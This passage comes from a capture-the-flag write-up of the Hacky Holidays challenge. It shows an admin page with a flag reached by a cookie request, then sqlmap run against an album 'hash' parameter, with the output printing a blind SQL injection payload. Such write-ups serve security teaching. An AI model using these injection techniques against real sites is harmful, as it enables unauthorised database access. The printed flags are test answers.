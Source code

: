 ```
HTTP/1.1 302 Found
Set-Cookie: token=870fa22f8c9727d9e1b527499bb55457; expires=Mon, 21-Dec-2020 17:40:35 GMT; Max-Age=3600
Location: /signup-manager/
```

**Request:**
```
GET /signup-manager/ HTTP/1.1
Cookie: token=870fa22f8c9727d9e1b527499bb55457
```

```html
<body>
<div class="container" style="margin-top:20px">
    <div class="text-center"><img src="/assets/images/grinch-networks.png" alt="Grinch Networks"></div>
    <h1 class="text-center" style="margin:0;padding:0">Admin Area</h1>
    <div class="row">
        <div class="col-md-6 col-md-offset-3" style="margin-top:15px">
            <div class="alert alert-info">
                <p class="text-center">flag{99309f0f-1752-44a5-af1e-a03e4150757d}</p>
                <p class="text-center">You made it through, continue to your next task <a href="/r3c0n_server_4fdk59">here</a></p>
            </div>
        </div>
    </div>
</div>
</body>
</html>
```

Got the flag, `flag{99309f0f-1752-44a5-af1e-a03e4150757d}`, and the location of tomorrow's challenge `/r3c0n_server_4fdk59`.

# Day 11
We're getting into the depths of the Grinch's schemes now.

{F1134467}

The "Attack Box" button takes us to a login page. Presumably we gain the login details by completing this challenge.

## Exploring the Site

Each of the albums displays some Santa sightings:

{F1134465}

It is possible the `hash` parameter that is used to fetch the photos in that album is vulnerable to SQL injection. We could check manually like we did for day 9, but let's use [sqlmap](http://sqlmap.org/) this time around.

```
$ sqlmap -u 'https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=3dir42'

GET parameter 'hash' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 90 HTTP(s) requests:
---
Parameter: hash (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: hash=3dir42' AND 2469=2469 AND 'eVQs'='eVQs

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
```